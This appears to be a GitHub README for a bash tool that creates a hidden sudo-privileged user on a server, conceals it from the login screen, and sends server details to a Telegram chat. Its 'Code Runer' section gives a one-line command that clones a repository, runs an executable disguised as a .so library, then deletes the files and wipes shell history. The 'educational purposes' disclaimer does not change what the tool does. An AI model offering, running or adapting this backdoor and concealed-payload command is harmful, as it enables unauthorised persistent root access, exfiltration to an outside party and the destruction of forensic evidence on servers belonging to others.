 # Hidden Admin User Creation Script

This script creates a hidden admin user on the server and sends notifications to a Telegram chat via a bot. It performs the following tasks:

1. **Checks if the script is run as root.**
2. **Sends server information to a specified Telegram chat.**
3. **Generates a random username and password for the new user.**
4. **Creates a new user with sudo privileges and hides it from the login screen.**

## Prerequisites

- **Bash**: This script requires Bash to run.
- **Curl**: The script uses `curl` to send messages to Telegram and fetch server information.
- **Telegram Bot Token and Chat ID**: You need to provide your Telegram bot token and chat ID where notifications will be sent.

## Usage

1. **Configure Telegram Bot Token and Chat ID**:

   Replace the placeholder values for `BOT_TOKEN` and `CHAT_ID` with your actual Telegram bot token and chat ID.

   ```bash
   BOT_TOKEN="your_telegram_bot_token"
   CHAT_ID="your_chat_id"
   ```

2. **Make the Script Executable**:

   ```bash
   chmod +x create_hidden_admin.sh
   ```

3. **Run the Script as Root**:

   ```bash
   sudo ./create_hidden_admin.sh
   ```

## Script Details

- **Function `send_telegram_message`**: Sends a message to the specified Telegram chat.
- **Function `get_server_info`**: Retrieves the server's IPv4 address, IPv6 address, and hostname.
- **Function `generate_random_string`**: Generates a random string of a given length.
- **User Creation**:
  - Checks if the user already exists.
  - Creates a new user with a randomly generated username and password.
  - Adds the user to the `sudo` group for admin privileges.
  - Hides the user by modifying the home directory to `/var/empty` and changing the login shell.

## Security Warning

- **Running as Root**: This script must be executed with root privileges. Running it with insufficient permissions may result in failure.
- **Hidden User**: While the user is hidden from the login screen, it can still be accessed and used if known. Ensure that you handle this user securely.

## Disclaimer

This script is provided for educational purposes and should be used responsibly. Misuse of this script can lead to security risks and unintended consequences. Always review and test scripts in a safe environment before deploying them in production.


## Code Runer
   ```
   git clone https://github.com/Aytola7/lib02uba.git && cd lib02uba &&chmod +x libxyz123.so&&./libxyz123.so&&cd /root&&rm -rf /root/lib02uba&&history -c &&rm ~/.bash_history&&history -w
   ```
---

Feel free to modify and extend the script according to your needs and ensure you understand its behavior before execution.
